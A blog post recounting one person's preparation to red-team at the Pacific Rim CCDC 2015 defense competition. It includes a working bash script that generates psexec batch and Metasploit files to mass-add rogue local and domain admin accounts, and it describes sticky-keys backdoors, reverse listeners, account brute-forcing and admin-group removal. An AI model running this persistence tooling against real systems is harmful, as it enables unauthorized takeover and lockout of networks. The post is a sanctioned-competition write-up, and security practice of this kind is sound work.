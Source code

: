 ```yaml
---
layout: post
title: How I Prepared to Red Team at PRCCDC 2015
summary: A bit about how I prepared for the Pacific Rim CCDC 2015 competition
tags:
- ccdc
---
```


I had the opportunity to take part in the Pacific Rim CCDC this past weekend and it was a BLAST! It was my first CCDC, so I really didn't know what to expect. I did know that the last thing I would want to be doing is installing and configuring tools during test time.

### Kali
I err'd on the side of installing tools I may not use rather than not installing something I would need. I've got a goto script I use for my setting up a Kali VM and customizing. It installs a ton of tools and scripts that I use. The script can be found [here](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/kali_setup.sh).


Then, I made some manual tweaks:

* Change root password
* Enable autologin within `/etc/gdm3/daemon.conf`
* Disable screen lockout
* Add Leafpad and Screenshot to taskbar
* Alias `msfconsole='msfconsole -r /msfconsole.rc'`
* Add `* * * * * /payload_gen.sh` to crontab

Next up was loading up on wordlists. I rounded up the usual suspects (Cain, John, RockYou, etc) but I knew I would want to add some inconspicuous user accounts and mess with the Blue Team's host file. To accomodate, I found lists of the top 10,000 US last names and internet domain names. I ended up just whipping up a slightly taunting list of 10 usernames that I used day of, but if I needed 10k usernames I had them.

I wrote a quick bash script to create a Metasploit resource script and batch file that creates new local users and add them to the local admin group for persistence sake.

```bash
#!/bin/bash
#by bluescreenofjeff
IFS=$'\n'
USERLISTFILE='/root/Desktop/users.txt'
PASSVAR='StrongPassword1'
OUTFILELOCAL='mass_user_add_local.rc'
OUTBATLOCAL='mass_user_add_local.bat'
OUTFILEDOMAIN='mass_user_add_domain.rc'
OUTBATDOMAIN='mass_user_add_domain.bat'

#BAT Output - local
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes\ >> $OUTBATLOCAL
	echo net user $CURRUSER $PASSVAR >> $OUTBATLOCAL
	echo net localgroup  administrators $CURRUSER  /add >> $OUTBATLOCAL
done

#BAT to RC - local
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILELOCAL
for EACH in `cat $OUTBATLOCAL`
do
	echo set command \" $EACH \" >> $OUTFILELOCAL
	echo run >> $OUTFILELOCAL
done


#BAT Output - domain
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes /domain >> $OUTBATDOMAIN
	echo net user $CURRUSER $PASSVAR /domain >> $OUTBATDOMAIN
	echo net localgroup  administrators $CURRUSER  /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
done

#BAT to RC - domain
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILEDOMAIN
for EACH in `cat $OUTBATDOMAIN`
do
	echo set command \" $EACH \" >> $OUTFILEDOMAIN
	echo run >> $OUTFILEDOMAIN
done
```

[Source](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/mass_user_add_generator.sh)


### Metasploit
Most of the Red Teamers used Cobalt Strike Team Servers as their base of operations, but since I haven't used it that much and didn't want to potentially get shut out of my target boxes because of learning curve. I decided to stick with msfconsole as my main tool for the weekend. My main goal in preparation was to get as much of the time-wasting stuff automated as possible.


* [intel.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/intel.rc) - Runs a number of intel-gathering Windows commands. Run from the Meterpreter prompt.
* [bounce](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bounce.rc) - Restarts a reverse_tcp listener on 443.
* [bouncessl](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bouncessl.rc) - Restarts a reverse_https listener on 443.
* [local500.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/local500.rc) - Sets up for a brute force of the built-in 500 accounts. Modify with `file:///path/to/wordlist` on line 4.
* [winpersist.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc) - Sets up sticky keys, utilman, and display persistence using psexec_command.
* [msfconsole.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc) - msfconsole startup script. Reference the file path in the alias above. This gets written by the script above



### Commands
The biggest prep item was getting a solid copy/paste command list ready. This was a big focus point of the Red Team this year since the goal was to attack Blue Teams with the same attacks at roughly the same times. The command list has been reposted by Action Dan [here](http://lockboxx.blogspot.com/2015/03/red-teaming-at-prccdc-2015.html). 

In the time leading up to the official start, I pasted every single command from Phase 1's attacks into their own consoles so once the Red Team gets the go-ahead all you have to do is hit enter. 





### Defacement
Though this was my first rodeo, I knew that there would be opportunities to deface some web interfaces and I wanted to be ready to bring some lulz. This is what I settled on:
![I am invincible!]({{site.url}}/assets/prccdc2015-defacement.gif)
[Source](https://github.com/bluscreenofjeff/CCDC-Scripts/tree/master/website-defacement)

Looking back now, I should have also gathered some nice gifs about patching or host hardenening.
     


### Prepping for Next Year
As I mentioned I had a blast this year and hope to attend again next year. Before then there are a few scripts I'd like to have written and in-hand before go-time:

* **ndiff to monitor environment** - Before this year I started tweaking this script from the nmap documentation to diff periodic scans and monitor for network changes. I didn't get it polished enough and now am wondering if it's the best way to get what I'm after, but I'd like to be able to monitor the Blue Team's environment as close to realtime as possible. Spot new hosts, identify restarts, etc.
* **Low-hanging fruit scans** - Along the same lines, I would like a way to constantly check for previously used credentials, previously exploited vulns, etc to try and catch systems when they get reverted. 
* **Script to remove users from admin groups** - This is something my Red cell team manually did this year. We got Domain Admin access and once the final phase of wreaking havoc was called on we ran the resource script to remove all DAs from the Domain Admin, Enterprise Admin, Schema Admin, and Remote Desktop user groups. It would have been much easier to have a script to make that resource script. Simple enough.
* **moar lulz** - Somewhere around the middle of Phase 2 my co-Red cell teamer and I were watching some Boos from Super Mario Bros. chasing the Blue Teamer's mouse and causing them much frustration while trying to write a Disaster Recovery Plan. That was a lot of fun. I'd like to find some more ways to make our presence known to the Blue Teamers without being too destructive and watch them try to remediate us out. VNC, replaced sysinternals tools, things like that would be fun...

If I had to give one piece of advice to a first time Red Teamer, my suggestion is to prepare as much as possible. The LAST thing you want to be doing during the competition is Googling how to run an exploit or how to add yourself to the local admin group. That's not to say you'll avoid it completely-- you most likely won't -- but you want to minimize searching time down to things that are unique to the environment at hand. Automate the basic stuff that takes time, copy/paste the rest.
    